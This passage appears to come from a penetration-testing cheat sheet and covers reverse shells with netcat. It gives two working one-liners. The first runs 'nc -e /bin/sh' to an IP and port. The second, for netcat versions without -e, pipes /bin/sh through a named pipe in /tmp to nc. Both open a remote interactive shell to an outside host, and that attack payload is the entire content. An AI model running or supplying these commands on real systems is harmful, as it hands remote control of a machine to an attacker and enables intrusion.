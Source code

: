 ### Reverse shell in Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

``nc -e /bin/sh 10.0.0.1 1234``

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f